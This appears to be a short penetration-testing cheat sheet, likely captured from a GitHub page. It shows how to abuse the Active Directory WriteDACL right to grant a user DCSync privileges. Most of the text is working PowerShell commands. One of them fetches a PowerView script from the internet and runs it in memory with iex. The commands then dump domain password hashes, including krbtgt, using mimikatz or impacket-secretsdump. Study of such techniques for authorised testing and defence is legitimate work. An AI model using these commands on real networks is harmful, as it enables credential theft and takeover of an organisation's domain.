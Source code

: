 # PowerView
## WriteDACL Permission
The WriteDACL privilege gives a user the ability to add ACLs to an
object. This means that we can add a user to this group and give them DCSync privileges.
**After you have created a new user - Then give him DCSync permission**
````powershell
$pass = convertto-securestring '<password' -asplain -force
$cred = new-object system.management.automation.pscredential('<domain>\<username>',$pass)
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
Add-ObjectACL -PrincipalIdentity <username> -Credentials $cred -Rights DCSync
````
### DCSyncing Hashes
Since the user has now the required privileges to use DCSync, we can use mimikatz or secretdump to dump password hashes from the DC via:
````powershell
lsadump::dcsync /user:krbtgt
````
````powershell
impacket-secretsdump <domain>\<username>@<IP-ADDRESS>
````
